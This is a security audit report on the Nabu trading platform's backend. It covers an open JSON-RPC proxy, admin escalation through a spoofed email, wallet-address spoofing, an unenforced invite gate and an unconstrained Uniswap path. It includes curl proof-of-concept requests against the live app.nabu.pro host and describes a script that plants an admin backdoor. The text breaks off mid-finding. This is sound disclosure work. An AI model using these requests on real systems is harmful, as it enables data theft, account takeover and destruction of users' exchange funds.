

# Detailed Results

## Appchain JSON-RPC proxy exposes user trading data and enables destruction of any user's CEX funds

`/v1/appchain/rpc` is a JWT-authenticated reverse proxy to the appchain JSON-RPC with no method allowlist and no parameter rewriting. Any authenticated user can call read methods that authorize on a caller-supplied `sender` field and read another user's trading state. Chained with [11-LOW-appchain-debug-methods](#debug-appchain-rpc-methods-are-force-enabled-in-production) and [09-LOW-handle-id-order-idor](#any-strategy-can-place-orders-on-any-users-cex-account-via-a-known-handle_id), the same access leaks any user's CEX `handle_id` from their public address, which lets the attacker place orders on the victim's exchange account and destroy their position.

### Description

`proxyToAppchainRPC` ([fe/backend/internal/httpapi/handler.go#L115](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/handler.go#L115), [fe/backend/internal/httpapi/proxy.go#L47-L89](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/proxy.go#L47-L89)) forwards the request body verbatim to the appchain JSON-RPC endpoint with no method allowlist, body-size limit, or parameter rewriting:

```go
func (s *server) proxyToAppchainRPC(w http.ResponseWriter, r *http.Request) {
    userID, ok := authUserIDFromContext(r.Context())
    if !ok { writeError(w, 401, ...); return }
    r.Header.Set("X-User-Id", string(userID))
    s.appchainRPCProxy.ServeHTTP(w, r)
}
```

`X-User-Id` is set but no appchain method consumes it, and the appchain verifies per-request signatures inconsistently. Methods such as `cex_getBalances`, `cex_listOpenOrders`, and `cex_listAllOrders` ([application/api/cex_types.go#L137-L186](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/cex_types.go#L137-L186)) require a `Signature` and `PayloadHash` verified by `VerifySignature`. The read methods registered in `AddRPCMethods` ([application/api/api.go#L62](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/api.go#L62)) that skip this each authorize only on the caller-supplied `sender` through `ownerMatches(record, req.Sender)`, except `cex_getHandlesHint`, which is fully public:

- `getPnLResults` ([application/api/pnl_results.go#L68-L126](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/pnl_results.go#L68-L126)): PnL history per `sender`, including off-chain CEX deltas not visible on any explorer. The `sender`-only query has no ownership check at all, and the `strategy_id` branch still carries `// TODO: needs real authorisation.` ([application/api/pnl_results.go#L92](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/pnl_results.go#L92)).
- `getStrategyStatus` ([application/api/strategy_control.go#L120-L155](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/strategy_control.go#L120-L155)): strategy status and owner.
- `getStrategyAssetBalances` and `getBaselineBalances` ([application/api/strategy_asset_balances.go#L108-L280](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/strategy_asset_balances.go#L108-L280)): per-strategy and baseline balance snapshots.
- `getStrategyExternalTransactions` ([application/api/strategy_external_transactions.go#L18](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/strategy_external_transactions.go#L18)) and `getStrategyExternalTxExecs` ([application/api/external_tx_execs.go#L13](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/external_tx_execs.go#L13)): per-strategy DEX-transaction history.
- `cex_listStrategyOrders` ([application/api/cex_query.go#L459](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/cex_query.go#L459)): per-strategy CEX-order history.
- `cex_getHandlesHint` ([application/api/cex_keys.go#L112-L135](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/cex_keys.go#L112-L135)): CEX handle version counter for any address, documented as a public endpoint requiring no signature.

Three debug-only methods (`getStrategyRecordDebug`, `getStrategyStateSlots`, `getStrategyAssetSnapshotRows`) are reachable through the same proxy and force-enabled in production ([11-LOW-appchain-debug-methods](#debug-appchain-rpc-methods-are-force-enabled-in-production)).

### Impact

Prerequisites: one backend JWT from any Google login, and the victim's EVM address, which is public on-chain.

By passing `sender=victim`, the attacker reads the victim's trading state through the methods above: PnL history with off-chain CEX deltas, per-strategy CEX orders, the DEX-transaction ledger, and balance snapshots, plus a CEX-presence check for any address. The force-enabled debug methods ([11-LOW-appchain-debug-methods](#debug-appchain-rpc-methods-are-force-enabled-in-production)) add the strategy's trigger surface and internal state. Each `getPnLResults` record carries a `StrategyID` that bootstraps the per-strategy reads. None of this is visible to the victim or rate-limited.

Reading a victim's data this way is the same class of exposure as [03-HIGH-wallet-link-data-disclosure](#lack-of-wallet-address-validation-during-linking-leads-to-sensitive-user-data-disclosure) and would rate High, since it is another user's private trading data, including off-chain CEX figures no public explorer shows. What makes this Critical is that the same proxy supplies the one thing [09-LOW-handle-id-order-idor](#any-strategy-can-place-orders-on-any-users-cex-account-via-a-known-handle_id) lacks. That finding lets any strategy place orders on any user's CEX account, but is rated Low only because the attacker has no confirmed channel to obtain a victim's `handle_id`. The proxy is that channel. `getPnLResults(sender=victim)` yields a `strategy_id`, and `getStrategyAssetSnapshotRows(sender=victim, strategy_id=...)` checks only `ownerMatches(record, req.Sender)` against the caller-supplied `sender` ([application/api/strategy_asset_balances.go#L96](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/strategy_asset_balances.go#L96)), so it returns the victim's rows, whose `handle` field ([application/api/strategy_asset_balances.go#L67](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/strategy_asset_balances.go#L67)) is the victim's `handle_id`. With it, the attacker deploys their own strategy that places orders against the victim's handle, which the executor signs with the victim's exchange API key. The attacker captures nothing, but they can place arbitrary orders on the victim's positions and liquidate or churn them at a loss, and any active CEX user can be hit remotely from their public address alone.

Because any authenticated session can read a victim's full trading history and destroy any active CEX user's funds remotely through this chain, we set the severity to **Critical**.

### Proof of Concept

```bash
JWT="..."
BASE="https://app.nabu.pro"
VICTIM="0x..."

# 1. PnL history. Empty if the victim has not traded.
curl -sX POST "$BASE/api/backend/v1/appchain/rpc" \
  -H "Authorization: Bearer $JWT" -H "Content-Type: application/json" \
  -d '{"jsonrpc":"2.0","id":1,"method":"getPnLResults",
       "params":[{"sender":"'$VICTIM'","limit":1000}]}'

# 2. CEX orders for a strategy_id observed in step 1.
STRATEGY_ID="..."
curl -sX POST "$BASE/api/backend/v1/appchain/rpc" \
  -H "Authorization: Bearer $JWT" -H "Content-Type: application/json" \
  -d '{"jsonrpc":"2.0","id":1,"method":"cex_listStrategyOrders",
       "params":[{"strategy_id":"'$STRATEGY_ID'","sender":"'$VICTIM'"}]}'

# 3. CEX-presence check. Works for any address, no trading required.
curl -sX POST "$BASE/api/backend/v1/appchain/rpc" \
  -H "Authorization: Bearer $JWT" -H "Content-Type: application/json" \
  -d '{"jsonrpc":"2.0","id":1,"method":"cex_getHandlesHint",
       "params":[{"wallet_addr":"'$VICTIM'"}]}'
```

`{"version": N}` with `N >= 1` in step 3 confirms the CEX-presence check.

Per [11-LOW-appchain-debug-methods](#debug-appchain-rpc-methods-are-force-enabled-in-production), the same proxy extracts the strategy's trigger surface and full internal state:

```bash
curl -sX POST "$BASE/api/backend/v1/appchain/rpc" \
  -H "Authorization: Bearer $JWT" -H "Content-Type: application/json" \
  -d '{"jsonrpc":"2.0","id":1,"method":"getStrategyRecordDebug",
       "params":[{"strategy_id":"'$STRATEGY_ID'","sender":"'$VICTIM'"}]}'

curl -sX POST "$BASE/api/backend/v1/appchain/rpc" \
  -H "Authorization: Bearer $JWT" -H "Content-Type: application/json" \
  -d '{"jsonrpc":"2.0","id":1,"method":"getStrategyStateSlots",
       "params":[{"strategy_id":"'$STRATEGY_ID'","sender":"'$VICTIM'"}]}'
```

### Recommendations

1. Close the open passthrough. Remove `/v1/appchain/rpc` and route client traffic through the typed backend handlers, which already pin `sender = wallet.PrivyAddress` from the authenticated session ([fe/backend/internal/httpapi/strategy_execs.go#L60](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/strategy_execs.go#L60), [fe/backend/internal/httpapi/strategy_cex_orders.go#L57](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/strategy_cex_orders.go#L57)). If the proxy must remain, enforce a method allowlist, rewrite `sender` from the JWT and reject any caller-supplied `sender`, apply `http.MaxBytesReader`, and strip client-controlled request headers (`Authorization`, `X-User-*`, `X-Forwarded-*`).

2. Add signature verification on the affected appchain read methods. Mirror the `Signature` and `PayloadHash` shape from [application/api/cex_types.go#L137-L186](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/cex_types.go#L137-L186) on `getPnLResults`, `getStrategyStatus`, `getStrategyExternalTransactions`, `getStrategyExternalTxExecs`, `cex_listStrategyOrders`, `getStrategyAssetBalances`, and `getBaselineBalances`, and resolve the `// TODO: needs real authorisation.` at [application/api/pnl_results.go#L92](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/application/api/pnl_results.go#L92) as part of it.


## Privy account linking writes unvalidated `google_email` providing privilege escalation to administrative status

The `/v1/trading-wallet/link` endpoint that links a user's Privy account data to their Nabu account data does not verify that the Google email address specified in the request is actually linked to the Privy account authenticated by the Privy access token. This allows a user to link an administrator's email address to their own account, and gain admin privileges on the platform, which are governed by a list of admin emails.

### Description

`/v1/trading-wallet/link` accepts a `google_email` field directly from the request body and writes it to the `privy_users` table. The same column is the only value read by the `requireAdmin` middleware's `IsAdmin(GoogleEmail)` check. There is no validation against the verified Privy identity, so any authenticated user can overwrite the `google_email` on their own row with a known admin address and inherit administrative privileges.

The handler reads the field from the JSON body ([fe/backend/internal/httpapi/trading_wallet.go#L33-L43](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L33-L43)) and copies it into the row that gets persisted via `UpsertPrivyUser` ([fe/backend/internal/httpapi/trading_wallet.go#L223-L229](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L223-L229)):

```go
user := store.PrivyUser{
    PrivyUserID:    reqPrivyUserID,
    PrimaryAddress: primaryAddressCanonical,
    GoogleEmail:    req.GoogleEmail, // unvalidated client input
}
s.st.UpsertPrivyUser(r.Context(), user)
```

The store's UPSERT overwrites the existing value on conflict, with no constraint ([fe/backend/internal/store/privy_users.go#L23-L28](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/privy_users.go#L23-L28)):

```sql
ON CONFLICT(privy_user_id) DO UPDATE SET
  primary_address = excluded.primary_address,
  google_email    = excluded.google_email,
  updated_at_unix = excluded.updated_at_unix
```

`requireAdmin` then reads the rewritten value back and feeds it to `IsAdmin` ([fe/backend/internal/httpapi/invite.go#L32-L44](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L32-L44)):

```go
privyUser, _ := s.st.GetPrivyUser(r.Context(), privyUserID)
isAdmin, _   := s.st.IsAdmin(r.Context(), privyUser.GoogleEmail)
```

The trusted path at `/v1/auth/privy` populates `google_email` from the verified Privy OAuth response ([fe/backend/internal/httpapi/auth_privy.go#L225-L233](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/auth_privy.go#L225-L233)). It shares the same UPSERT, so the vulnerable handler can overwrite the verified value.

The endpoint's existing controls do not stop the attack. The handler enforces `ctxUserID == reqPrivyUserID` ([fe/backend/internal/httpapi/trading_wallet.go#L156-L161](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L156-L161)) and re-verifies the Privy access token ([fe/backend/internal/httpapi/trading_wallet.go#L163-L174](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L163-L174)), but both gates apply to the attacker's own session. The attacker only needs to mutate their own `privy_users` row. The legitimate admin's account is untouched, and admin status is inherited through the rewritten email column. The wallet-already-linked check at line 243 runs after `UpsertPrivyUser`, so the email overwrite has already committed when the response is composed. The attack succeeds on both the 200 path (no prior wallet) and the 409 path (wallet already linked).

### Impact

The only prerequisite is knowing one existing admin email. Bootstrapped admins are seeded under the `@pelagos.network` domain ([fe/backend/internal/store/schema.sql#L160-L164](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/schema.sql#L160-L164)) and follow a predictable `firstname@pelagos.network` pattern that is easy to guess.

After exploitation the attacker passes `requireAdmin` and obtains full management of the `admins` table (`POST /v1/admin/admins`, `DELETE /v1/admin/admins/{email}`), the entire invite-code lifecycle (`GET/POST/DELETE /v1/admin/invite-codes*`, including reading every redemption record with user emails and privy IDs), and internal pprof endpoints across backend, appchain, and pelacli ([fe/backend/internal/httpapi/debug_pprof.go#L15-L23](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/debug_pprof.go#L15-L23)).

The compromise is persistent. By inserting their own real email into the `admins` table, the attacker establishes a backdoor that survives both re-authentication via `/v1/auth/privy` (which would otherwise restore their genuine Privy email) and an operator reset of the `privy_users` row.

The attacker can also wipe the admin table. The self-removal guard at [fe/backend/internal/httpapi/invite.go#L515-L523](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L515-L523) compares the request's target email to `privyUser.GoogleEmail`, which is the value the attacker controls. Spoofing one admin's email allows removing the others. Rotating the spoofed value through each admin removes them all.

The prerequisites are minimal, any authenticated user knowing one guessable admin email, and the result is a persistent full admin takeover. We set the severity to **Critical**.

### Proof of Concept

Attached: `poc-email-privilege-escalation.py`.

To reproduce, sign in to the application normally and capture the following from any authenticated request via DevTools, then fill them in at the top of the script:

- `BE_JWT`: the `Authorization: Bearer ...` header.
- `PRIVY_ACCESS_TOKEN`, `PRIVY_USER_ID`, `PRIVY_WALLET_ID`, `PRIVY_ADDRESS`: from the body of any `/v1/trading-wallet/link` request.
- `ATTACKER_EMAIL`: the email to be inserted into the `admins` table for persistence.

Run `python3 poc-email-privilege-escalation.py`. Expected output:

```
baseline:  403
exploit:   409
backdoor:  200  {"success":true,"email":"neploxaudit@gmail.com"}
admins:    200  {"admins":[...]}
```

The `409` on the exploit step is not a failure. The PoC account already has a wallet linked, so `UpsertPrivyWallet` returns conflict, but the email overwrite at line 229 has already committed and the subsequent `requireAdmin` calls succeed. On a fresh `privy_user_id`, the same call returns `200`.
A screenshot of the admin panel reachable after exploitation:


### Recommendations

First, stop accepting `google_email` from the client. Remove the field from `tradingWalletLinkRequest` and from the `UpsertPrivyUser` call in `tradingWalletLink`. The trusted Privy fetch in `/v1/auth/privy` ([fe/backend/internal/httpapi/auth_privy.go#L225-L233](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/auth_privy.go#L225-L233)) already populates this column at session creation, and no other handler needs to write it from this code path. One alternative is to fetch the email from Privy inside the link handler and write the result, but that handler is already best-effort silent on Privy failures. Reusing the same pattern here would let a transient Privy outage erase a legitimate admin's email on the next link, so it should fail closed instead.

Second, stop deriving authorization state from a mutable user-profile column. Even after the first fix, a single future writer of `privy_users.google_email` reintroduces the same vulnerability class, and the self-removal guard at [fe/backend/internal/httpapi/invite.go#L519](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L519) shares the same trust assumption. Replace the email-keyed admin lookups with one of two designs. Either carry admin status in the JWT claims at session creation, so `requireAdmin` does not re-read mutable DB state per request, or re-key the `admins` table on the immutable `privy_user_id`, migrating the seed data and the admin add/remove endpoints to match.

As a separate hardening note unrelated to this bug, `UpsertPrivyUser` and `UpsertPrivyWallet` in `tradingWalletLink` execute as independent statements, so a 409 on the wallet check leaves the user row mutated. Wrapping the two writes in a single transaction is good hygiene, but it is not a fix for this issue, since the exploit succeeds on the 200 path with no conflict.


## Lack of wallet address validation during linking leads to sensitive user data disclosure

`/v1/trading-wallet/link` allows setting arbitrary address values across three distinct storage locations: `evm_address` of the `user_identities` table, `primary_address` of the `privy_users` table, and `privy_address` of the `privy_wallets` table. Two out of three of these locations do not enforce global uniqueness on the addresses, meaning different users can have the same address linked to their Privy account or wallet in the context of Nabu. Through the various read endpoints of the application, such as `/v1/portfolio`, `/v1/strategies/{id}/execs`, `/v1/strategies/{id}/cex-orders`, an attacker who sets their wallet address to the victim's address is able to read sensitive portfolio data.

### Description

`tradingWalletLink` ([fe/backend/internal/httpapi/trading_wallet.go#L135](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L135)) reverifies only `privy_user_id` against Privy ([fe/backend/internal/httpapi/trading_wallet.go#L163](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L163)). `req.PrivyAddress` and `req.PrimaryAddress` are written as opaque strings into `privy_wallets.privy_address` ([fe/backend/internal/httpapi/trading_wallet.go#L264-L272](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L264-L272)), `privy_users.primary_address` ([fe/backend/internal/httpapi/trading_wallet.go#L223-L229](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L223-L229)), and `user_identities.evm_address` via `ResolveOrCreateUserIDByPrivyUserID` ([fe/backend/internal/store/user_identities.go#L113](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/user_identities.go#L113)). The same handler writes the client-supplied `privy_wallet_id` without validation as well, which [10-LOW-wallet-link-override-strategy-dos](#lack-of-privy-wallet-id-validation-during-linking-leads-to-user-strategy-management-dos) abuses to override a victim's appchain wallet ownership and lock them out of strategy management.

Only `user_identities.evm_address` carries `UNIQUE` ([fe/backend/internal/store/schema.sql#L11](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/schema.sql#L11)). `privy_wallets.privy_address` ([fe/backend/internal/store/schema.sql#L130-L140](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/schema.sql#L130-L140)) and `privy_users.primary_address` ([fe/backend/internal/store/schema.sql#L122-L128](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/schema.sql#L122-L128)) do not. `linkEVMAddressToUserID` ([fe/backend/internal/store/user_identities.go#L216-L233](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/user_identities.go#L216-L233)) writes via `COALESCE(evm_address, ?)`, so an attacker who already holds any value bypasses the constraint silently. A fresh attacker hits a 500 on conflict, which does not block the wallet write that already happened on the previous statement.

### Impact

Three read endpoints forward the stored `privy_address` to the appchain as `sender`: `/v1/portfolio` via `resolvePortfolioSender` ([fe/backend/internal/httpapi/portfolio.go#L552-L566](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/portfolio.go#L552-L566)), `/v1/strategies/{id}/execs` ([fe/backend/internal/httpapi/strategy_execs.go#L60](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/strategy_execs.go#L60)), and `/v1/strategies/{id}/cex-orders` ([fe/backend/internal/httpapi/strategy_cex_orders.go#L57](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/strategy_cex_orders.go#L57)). The appchain returns PnL, executions, and CEX orders for whichever address it is asked about.

An attacker signs up with their own Google account and posts the victim's address as `privy_address` to `/v1/trading-wallet/link`. Reverify passes against the attacker's own session. `/v1/portfolio?chain_id=1` returns the victim's PnL, and `/v1/strategies/{id}/execs` and `/cex-orders` return the same for any known victim strategy id. The "wallet already linked" guard ([fe/backend/internal/httpapi/trading_wallet.go#L243-L252](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L243-L252)) limits each `(privy_user_id, chain_id)` to one linked address, but it does not restrict what that address is, so the attacker's initial link sets it to the victim's.

Because any user's portfolio, executions, and CEX orders can be read from an attacker-controlled session knowing only the victim's public address, we set the severity to **High**.

### Proof of Concept

```bash
curl -sX POST "$BASE/api/backend/v1/trading-wallet/link" \
  -H "Authorization: Bearer $ATTACKER_JWT" -H "Content-Type: application/json" \
  -d "{
    \"privy_user_id\":      \"$ATTACKER_PRIVY_USER_ID\",
    \"privy_wallet_id\":    \"$ATTACKER_PRIVY_WALLET_ID\",
    \"privy_address\":      \"$VICTIM_ADDRESS\",
    \"primary_address\":    \"$VICTIM_ADDRESS\",
    \"chain_id\":           1,
    \"privy_access_token\": \"$ATTACKER_PRIVY_TOKEN\"
  }"

curl -sX GET "$BASE/api/backend/v1/portfolio?range=7d&chain_id=1" \
  -H "Authorization: Bearer $ATTACKER_JWT"
```

### Recommendations

Resolve `privy_address` and `primary_address` server-side from `privy_user_id` via the Privy API, and reject any body field that disagrees with the wallet Privy returns for the verified session under `chain_id`.

Add `UNIQUE` on `privy_wallets.privy_address` and `privy_users.primary_address`. This does not replace server-side resolution, but it blocks the silent shared-address state.

Reject relink attempts in the "wallet already linked" guard ([fe/backend/internal/httpapi/trading_wallet.go#L243-L252](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L243-L252)) when the new address differs from the stored one.


## Invite activation is not enforced by the API, granting any user full platform access

The Nabu UI blocks all functionality behind invitation code redemption, but the API does not enforce this. A user can access the features of the app by bypassing the client-side check.

### Description

The invite system records redemptions in `invite_redemptions` and exposes a per-user `is_activated` flag through `IsUserActivated` ([fe/backend/internal/store/invite.go#L42-L54](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/store/invite.go#L42-L54)).

That function is called from exactly two places in the backend: `inviteStatus` ([fe/backend/internal/httpapi/invite.go#L85-L107](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L85-L107)), which returns the flag to the client, and `inviteRedeem` ([fe/backend/internal/httpapi/invite.go#L141-L159](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/invite.go#L141-L159)), which prevents a second redemption. No feature handler reads it, and there is no "requireActivated" middleware. Every feature route is registered with `requireAuth` alone ([fe/backend/internal/httpapi/handler.go](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/handler.go)).

Once a user has a JWT from `/v1/auth/privy` or `/v1/auth/verify`, every feature endpoint accepts the request and returns real data. Activation is effectively enforced only by the client.

### Impact

Prerequisites: any authenticated JWT. No invite redemption required.

The attacker reads portfolio, strategies, execs, and cex-orders, and can submit, deploy, and control strategies and operate the trading wallet (deploy and control still require a wallet-signed transaction). The closed-beta cap and every restriction in the redemption flow (single-use codes, time-bound campaigns, the redemption-counter check) are moot, because the activation they produce is never read.

Because every feature endpoint is reachable without redeeming an invite, we set the severity to **High**.

### Proof of Concept

```bash
JWT="..."   # fresh login via Privy, no invite redeemed
BASE="https://app.nabu.pro"

curl -sX GET "$BASE/api/backend/v1/invite/status" \
  -H "Authorization: Bearer $JWT" | jq
# {"is_activated": false, ...}

curl -sX GET "$BASE/api/backend/v1/strategies" \
  -H "Authorization: Bearer $JWT" | jq
# 200 OK — list returned despite is_activated=false

curl -sX GET "$BASE/api/backend/v1/portfolio?range=7d" \
  -H "Authorization: Bearer $JWT" | jq
# 200 OK

curl -sX POST "$BASE/api/backend/v1/strategies/submit" \
  -H "Authorization: Bearer $JWT" -H "Content-Type: application/json" \
  -d '{"strategy_id":"st_'$(openssl rand -hex 8)'","dsl":"(strategy (version 1))","signature":{"address":"0x...","chain_id":1,"tx_hash":""}}' | jq
# 200 OK — registered without invite
```

Post-fix expected state: `403 activation_required` on every feature route until the user redeems an invite.

### Recommendations

First, introduce a `requireActivated` middleware and wrap every feature route in it:

```go
func (s *server) requireActivated(next http.HandlerFunc) http.HandlerFunc {
    return func(w http.ResponseWriter, r *http.Request) {
        userID, _ := authUserIDFromContext(r.Context())
        activated, err := s.st.IsUserActivated(r.Context(), userID)
        if err != nil { writeError(w, 500, ...); return }
        if !activated {
            writeError(w, 403, "activation_required", "redeem an invite to access this feature")
            return
        }
        next(w, r)
    }
}
```

Apply it to every feature route alongside the existing `requireAuth` ([fe/backend/internal/httpapi/handler.go](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/handler.go)). Do not apply it to `inviteStatus` or `inviteRedeem`, and leave the admin routes unchanged since they enforce their own authorization.

Second, optionally cache `is_activated` in the JWT claims, refreshed on redeem, to avoid the per-request database lookup. This is only viable if the JWT TTL is also shortened (see [13-LOW-session-persistence](#app-sessions-are-not-tied-to-privy-sessions-allowing-a-user-to-maintain-access-after-privy-sessionaccount-deactivation)) so that administrative deactivation propagates.


## Uniswap swap policy does not constrain `path[]`, allowing allowlisted inputs to be swapped into any token

The Privy wallet policy that bounds which swaps the delegated Nabu signer will sign applies the user's `tokenAllowlist` only to the ERC20 `approve`, never to the swap path. The output token is therefore unconstrained on every Uniswap V2 variant, so a user who deploys an attacker-authored strategy can have any allowlisted input, or up to 100 ETH, swapped into an arbitrary output token.

### Description

`buildUniswapPolicyRules` ([fe/backend/internal/httpapi/trading_wallet.go#L1738](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L1738)) wires the user-supplied `tokenAllowlist` only into the `approve-router-cap` rule ([fe/backend/internal/httpapi/trading_wallet.go#L1747-L1752](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L1747-L1752)). `buildUniswapSwapRules` is called without it ([fe/backend/internal/httpapi/trading_wallet.go#L1740](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L1740)), and `uniswapSwapRule` ([fe/backend/internal/httpapi/trading_wallet.go#L1849-L1864](https://github.com/0xAtelerix/smart_example/blob/4df3aaed0d4b6b6852522510d06382f259e5f142/fe/backend/internal/httpapi/trading_wallet.go#L1849-L1864)) emits exactly three conditions per variant:

```go
txCondition("to", "eq", router)
txCondition("value", valueOperator, valueCap)
calldataCondition(functionName+".to", uniswapV2ABI(), "eq", walletAddress)
```

